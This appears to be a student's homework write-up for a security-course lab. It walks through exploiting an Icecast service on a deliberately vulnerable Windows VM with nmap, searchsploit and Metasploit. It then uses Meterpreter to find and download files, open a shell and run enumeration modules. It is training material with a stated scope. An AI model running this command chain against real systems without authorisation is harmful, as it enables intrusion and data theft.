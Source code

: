 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:xxxxx`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:xxx`
- Target machine: DVW10 `IEUser:xxx`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx] attached to this github repository: https://github.com/philippe75004/Penetration-Testing-1-Homework/blob/3b007de07f5a5b7e324a67a9bcaf553561f92f4c/Report-Homework%20Penetration%20Test%20Engagement.docx
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
	 
![nmap services](/Screenshots/Nmap.PNG "nmap services")


*nmap vulnerabilities script scan: nmap --script rdp-ntlm-info.nse 192.168.0.20

![nmap scripts](/Screenshots/Nmap-script.PNG "nmap scripts")
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
	 
![searchsploit icecast](/Screenshots/searchsploit-icecast.PNG "searchsploit icecast")

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfdb init then msfconsole to access the console.

![msfconsole start](/Screenshots/msfconsole1.PNG "msfconsole start")
 

4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search Icecast and or search Icecast type:exploit

![msfconsole search](/Screenshots/search-msf-icecast1.PNG "msfconsole search")

 
   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

![msfconsole use](/Screenshots/msfconsole-use.PNG "msfconsole use")

   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: meterpreter > search -f *secretfile.txt
	 
Found 1 result...
    c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: meterpreter > search -f *recipe.txt
	  
Found 1 result...
    c:\Users\IEUser\Documents\Drinks.recipe.txt (48 bytes)

 
  ####Bonus: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer:  meterpreter > download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'

![Meterpreter Download](/Screenshots/Meterpreter-download.PNG "Meterpreter Download")


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

meterpreter > run post/multi/recon/local_exploit_suggester

![Meterpreter Post](/Screenshots/Meterpreter-post.PNG "Meterpreter Post")

#### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:meterpreter > run post/windows/gather/enum_logged_on_users

![Meterpreter Post](/Screenshots/Meterpreter-post2.PNG "Meterpreter Post")

B. Open a Meterpreter shell. 
 
  > Answer: meterpreter > shell

![Meterpreter shell](/Screenshots/Meterpreter-shell.PNG "Meterpreter shell")

C. Run the command that displays the target's computer system information:

   > Answer: C:\Program Files (x86)\Icecast2 Win32>systeminfo

![Meterpreter shell](/Screenshots/Meterpreter-shell2.PNG "Meterpreter shell")

**Recommendations for the client to protect their server**

-Deploy an XDR + IPS + HIPS solutions to protect servers, network against this kind of Metsaploit attacks, tools.
